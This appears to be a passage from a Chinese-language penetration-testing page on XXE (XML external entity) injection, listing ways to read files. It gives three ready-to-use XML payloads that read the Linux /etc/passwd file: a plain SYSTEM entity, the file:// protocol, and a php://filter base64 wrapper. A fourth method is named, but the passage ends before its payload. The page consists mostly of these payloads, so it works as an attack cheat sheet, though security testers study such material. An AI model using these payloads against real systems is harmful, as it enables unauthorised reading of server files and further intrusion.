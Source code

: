 ![](<../.gitbook/assets/image (220).png>)

### 读文件

1. 常规方式读取 Linux 的 `/etc/passwd`文件。

```markup
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```
![](<../.gitbook/assets/image (221).png>)
2. file协议读取 Linux 的 `/etc/passwd`文件。

```markup
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "file:///etc/passwd"> ]>
<data>&example;</data>
```


3. php脚本语言读取 Linux 的 `/etc/passwd`文件。

```markup
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

4. `Element stockCheck` 声明为 ANY，读取 Linux 的 `/etc/passwd`文件。
